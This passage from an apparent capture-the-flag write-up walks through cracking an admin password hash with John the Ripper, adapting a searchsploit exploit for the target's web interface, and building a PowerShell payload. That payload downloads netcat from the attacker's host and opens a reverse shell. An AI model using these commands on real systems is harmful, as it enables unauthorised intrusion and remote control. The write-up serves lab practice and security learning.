 Command:
`john admin.hash -w=/usr/share/wordlists/rockyou.txt`

![](/images/2020/04/remote_adminhash.gif)

We get back a password of `baconandcheese`. Now we can log into the webinterface as admin and potentially use some one of our exploits from earlier. We head over and log in sucessfully!

Now we need to verify our software version. The little question mark gives us the details right way, version 7.12.4

![](/images/2020/04/image-58.png)

Our earlier `searchsploit` showed this exact verion, perfect! Let's copy the exploit to our working directory in case we need to edit it.

Command:
`searchsploit -m 46153 .`

Now we can take a look at the code and customize it if need be. We need to modify `login`, `password`,`host`, `string cmd` as well as the `proc.StartInfo.FileName` inside the exploit.

We need to make a temporary directory, download netcat.exe, create a netcat listen on our system and launch a netcat reverse shell from the target.

I'll move to my local `Tools` directory and start a `SimpleHTTPServer` so I can download my hosted `netcat.exe`.

Command from netcat location:
`python -m SimpleHTTPServer 80`

In this case we're leveraging `Powershell` to do what we ask. So we set our `proc.StartInfo.FileName` to `Powershell.exe`.

Next we need to create a payload string for our above requirements. When creating a payload, making it shorter is helpful. Since we're using powershell, I'll check locally for any aliases for `Invoke-WebRequest`.

Command:
`PS> gal -Definition Invoke-WebRequest`

![](/images/2020/04/image-60.png)

On my current VM hosting system, we have a few alias', we'll try some in this string. Ultimately the string I can up with is as follows:

`mkdir /rfio;wget 10.10.14.41/nc.exe -outfile /rfio/nc.exe;/rfio/nc.exe 10.10.14.41 4242 -e powershell`

Here's the breakdown:
`mkdir /rfio` makes a new directory called rfio.
`wget` lets us download a file of our choice.
`nc.exe 10.10.14.41 4242 -e powershell` executes our netcat command.

Our final modified code looks like this:

![](/images/2020/04/image-61.png)
